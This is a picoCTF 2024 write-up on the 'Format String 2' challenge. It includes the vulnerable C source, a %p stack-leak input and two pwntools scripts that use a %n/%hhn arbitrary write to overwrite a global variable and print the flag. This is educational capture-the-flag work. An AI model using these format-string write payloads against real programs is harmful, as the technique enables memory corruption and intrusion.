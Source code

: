 ```yaml
---
title: picoCTF - 2024 - Pwn - Format String 2
date: '2024-04-16'
tags: ['ctf', 'pwn', 'picoctf', 'fmt', 'arbitrary-write']
draft: false
summary: Overwriting a variable using the Format String Bug to fulfill an if-else condition for printing flag.txt. A very interesting challenge, to be honest.
---
```


## Challenge Description

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_chal_des.png)

## Solution

Before starting, I want to say that I am not an expert when it comes to binary exploitation. If you find mistakes in my write-ups, please let me know. I am open to any sort of constructive criticism.

Source code provided to us:

```c:vuln.c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];

  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We want to make this if-statement true:

```c:If-Condition
if (sus == 0x67616c66)
```

But problem is the value of sus is `0x21737573`. So to solve this challenge, we basically have to overwrite the value of **`sus`** to `0x67616c66`.

As **`printf()`** is being used, we can use **`%n`** format specifier to overwrite value of sus.

The **`%n`** modifier writes the amount of chars printed so far as an int to the address specified by the argument. Using the **`$`** specifier we could also specify from exactly where we want to read this address. We could also send the addresses as input to the program which would put those addresses on the stack.

First we want to find the offset of our input string on the stack. For that, i will pass 8 ‘A’ and will leak the addresses of the stack so that I can clearly see where the input is being stored:

```
AAAAAAAA|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p
```

Here I can see that my offset is 14:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_1.png)

Now, I know that I also need to know what address to write to. In this case it can be found using **`objdump`** on the binary:

```bash:objdump-command
objdump -D ./vuln | grep "sus"
```

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_2.png)

So, basically I want to overwrite address `0x404060` with the value `0x67616c66`. Let’s start making our payload.

For creating the payload, I took help from a Guide on [Format String Bug](https://www.theflash2k.me/blog/ctf-techs/fsb-guide) written by my mentor [TheFlash2k](https://www.theflash2k.me/about). He has explain fmt in very detail.

He has also explain how to arbitrary write 4-bytes by passing one byte at a time. **[** _[Source](https://www.theflash2k.me/blog/ctf-techs/fsb-guide#writing-four-bytes)_ **]**

So the final payload that I created:

```python:final-payload
#!/usr/bin/env python3
from pwn import *

# Setting up terminal context for debugging
context.terminal = ["tmux", "splitw", "-h"]

# Executable and ELF setup
exe = "./vuln"
elf = context.binary = ELF(exe)

# If the GDB argument is provided, attach GDB to the process at the specified breakpoint
if args.GDB:
    io = process()
    gdb.attach(io, "b *main+231")

io = remote("rhea.picoctf.net", 61208)
io.recvuntil(b"?\n")

# Offset = 14
# 14 (Offset) + 5 (For payload) + 1 (Address to be written on)
start = 20

# Address of the variable to be overwritten, found using objdump and grep
sus = 0x404060

# Function to calculate the difference between two values modulo 256
diff_hhn = lambda i, j: ((i - j) % 256) # (0xFF+1)

payload = f"%{0x66}c%{start}$lln".encode()            # Writing 0x66 to memory
payload += f"c%{start+1}$hhn".encode()                # Writing 0x66 to sus[0]
payload += f"%{diff_hhn(0x66,0x61)}c%{start+2}$hhn".encode()  # Writing 0x61 to sus[3]
payload += f"%{diff_hhn(0x61,0x6c)}c%{start+3}$hhn".encode()  # Writing 0x6c to sus[2]
payload += b"||||||"                                  # Padding to align memory addresses
payload += p64(sus)                                   # Address of sus
payload += p64(sus+3)                                 # Address of sus[3]
payload += p64(sus+1)                                 # Address of sus[1]
payload += p64(sus+2)                                 # Address of sus[2]

io.sendline(payload)
io.interactive()
```

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_3.png)

## Bonus

You can automate this whole process by using format string bug exploitation [tools](https://docs.pwntools.com/en/stable/fmtstr.html). The script will be:

```python:payload-crafted-using-exec_fmt-&-autofmt
from pwn import *

context.log_level = "critical"

context.terminal = ["tmux", "splitw", "-h"]
exe = "./vuln"
elf = context.binary = ELF(exe)
if args.GDB: gdb.attach(io, "b *main+231")

#io = process()
io = remote("rhea.picoctf.net", 61208)

def exec_fmt(payload):
    io = remote('rhea.picoctf.net', 61208)
    io.sendline(payload)
    return io.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

io.sendline(payload)

flag = io.recvuntil('}').split(b"...\n")[1]
flag = flag.decode('utf-8')

print(" ")
print("Flag:", flag)
print(" ")

io.interactive()
```

This script uses the `exec_fmt`, `autofmt` to find the offset for the payload and to find the address use `objump -D vuln` (as we did earlier).

### Flag:

![Fmt-2-sc](/static/writeups/picoCTF/pwn/format-string-2/fmt2_4.png)

> _That’s it for today’s blog, take Care_ 😃
